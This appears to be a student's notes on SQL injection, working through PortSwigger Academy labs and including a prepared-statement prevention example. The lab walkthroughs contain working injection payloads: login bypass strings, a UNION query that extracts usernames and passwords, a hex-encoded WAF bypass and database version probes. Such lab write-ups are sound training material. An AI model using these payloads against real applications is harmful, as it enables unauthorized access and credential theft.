 # [SQLi](https://portswigger.net/web-security/sql-injection)

Causes: 

- weak input validation, unparameterized queries, string concatenation to craft queries
- improper access control
- deprecated function from libraries...

Impact: unauthorized access to sensitive data

Categories: 

- [Retrieving hidden data](https://portswigger.net/web-security/sql-injection#retrieving-hidden-data): modify a SQL query → get additional results.
- [Subverting application logic](https://portswigger.net/web-security/sql-injection#subverting-application-logic): change a query → subvert the application's logic.
- [UNION attacks](https://portswigger.net/web-security/sql-injection/union-attacks): retrieve data from n tables.
- [Blind SQL injection](https://portswigger.net/web-security/sql-injection/blind): the results of a query are not shown in the app's responses.

Prevention:  

- using parameterized queries/ prepared statements

Instead of using this:

```c#
String query = "SELECT * FROM products WHERE category = '"+ input + "'";
Statement statement = connection.createStatement();
ResultSet resultSet = statement.executeQuery(query);
```

Using this: 

```c#
PreparedStatement statement = connection.prepareStatement("SELECT * FROM products WHERE category = ?"); 
statement.setString(1, input); 
ResultSet resultSet = statement.executeQuery();
```

[SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

## Apprentice 

### Lab 1: [SQL injection vulnerability in WHERE clause allowing retrieval of hidden data](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data)

- using burpsuite to intercept and modify request
- modify directly the url 

https://0a32007d0320a7ec817f2f18001e0033.web-security-academy.net/filter?category=Accessories%27+or+1=1--

![image-20250522120204449](./image/image-20250522120204449.png)

![image-20250522104646704](./image/image-20250522104646704.png)

### Lab 2: [SQL injection vulnerability allowing login bypass](https://portswigger.net/web-security/sql-injection/lab-login-bypass)

![image-20250522142009708](./image/image-20250522142009708.png)

Method 1: Modify the `username` parameter, giving it the value: `administrator'--`

Method 2: Modify the `password` parameter to the value: `'or 1=1 --`

==> login successfully as `administrator`

![image-20250522143817787](./image/image-20250522143817787.png)

![image-20250522144400231](./image/image-20250522144400231.png)



## Practitioner

### Lab 1: [SQL injection with filter bypass via XML encoding](https://portswigger.net/web-security/sql-injection/lab-sql-injection-with-filter-bypass-via-xml-encoding)

Take input from 

- query string
- **JSON-format input**
- **XML-format input**

Step 1: Observation

![image-20250522160951565](./image/image-20250522160951565.png)

- Stock check feature: sends `productId` and `storeId`in XML format

- Send request to tab repeater, try `storeId` with `1+1` or `1 union select null` and observe the result

- ![image-20250522170206674](./image/image-20250522170206674.png)

  ![image-20250522162738081](./image/image-20250522162738081.png)

  => attack detected

  ![image-20250522162816589](./image/image-20250522162816589.png)

Step 2: Bypass the WAF 

[Hackvertor extension](https://portswigger.net/bappstore/65033cbd2c344fbabe57ac060b5dd100)

Encode > dec_entities/hex_entities

`<@hex_entities> 1 union select username || '~' || password FROM users </@hex_entities>>`

Copy its output, and sned in tab repeater:

![image-20250522170438253](./image/image-20250522170438253.png)

Log in as admin:

![image-20250522172342161](./image/image-20250522172342161.png)

### [Lab 2: SQL injection UNION attack, determining the number of columns returned by the query](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns)

Determine the number of columns that are being returned by the query :

![image-20250524154940595](./image/image-20250524154940595.png)

Try to add more null values until the server error disappears & the result include `null` value:

![image-20250524155300270](./image/image-20250524155300270.png)

### [Lab 3: SQL injection attack, querying the database type and version on Oracle](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle)

- Determine the number of columns that are being returned by the query and which columns contain text data:

  ```http
  GET /filter?category=Gifts'+union+select+'n33r9','n33r99'+from+dual-- 
  ```

![image-20250524150555287](./image/image-20250524150555287.png)

=> you see that both 2 columns return text data (if I query 1 column, it returns server error).  

Search for the query to retrieve the database version from the [cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet), to craft the sqli payload as follow: 

```sql
'+UNION+SELECT+BANNER,+NULL+FROM+v$version--
```

![image-20250524152518169](./image/image-20250524152518169.png)

### [Lab 4: SQL injection attack, querying the database type and version on MySQL and Microsoft](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft)





